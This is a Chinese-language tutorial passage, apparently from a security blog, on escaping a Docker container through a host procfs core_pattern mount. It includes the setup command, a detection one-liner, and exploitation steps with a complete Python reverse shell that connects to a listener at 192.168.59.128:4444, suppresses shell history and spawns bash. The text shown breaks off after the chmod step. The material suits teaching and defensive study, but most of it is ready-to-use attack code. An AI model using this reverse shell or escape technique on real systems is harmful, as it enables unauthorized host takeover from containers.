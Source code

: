 ## Docker容器挂载 (伪文件系统)procfs 逃逸

`procfs`是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时(Docker默认是不会做用户隔离)。

利用文件`/proc/sys/kernel/core_pattern`它在Linux系统中，如果进程崩溃了，系统内核会捕获到进程崩溃信息，将进程崩溃信息传递给这个文件中的程序或者脚本。

> 从 2.6.19 内核版本开始，Linux 支持在 /proc/sys/kernel/core_pattern 中使用新语法。如果该文件中的首个字符是管道符'|'，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

### 环境

```
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu #搭建环境

find / -name core_pattern 2>/dev/null | wc -l | grep -q 2 && echo "Procfs is mounted." || echo "Procfs is not mounted." #检测当前容器是否挂载procfs
```

![image-20240122201502815](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240122201502815.png)

### 利用

+ 安装gcc

  ```
  apt update && apt install -y gcc
  ```

+ 创建一个用于反弹shell的python文件

  ```python
  #!/usr/bin/python3
  import  os
  import pty
  import socket
  lhost = "192.168.59.128"
  lport = 4444
  def main():
     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     s.connect((lhost, lport))
     os.dup2(s.fileno(), 0)
     os.dup2(s.fileno(), 1)
     os.dup2(s.fileno(), 2)
     os.putenv("HISTFILE", '/dev/null')
     pty.spawn("/bin/bash")
     # os.remove('/tmp/.t.py')
     s.close()
  if __name__ == "__main__":
     main()
  ```

+ 赋予shell权限

  ```
  chmod 777 .t.py
  ```
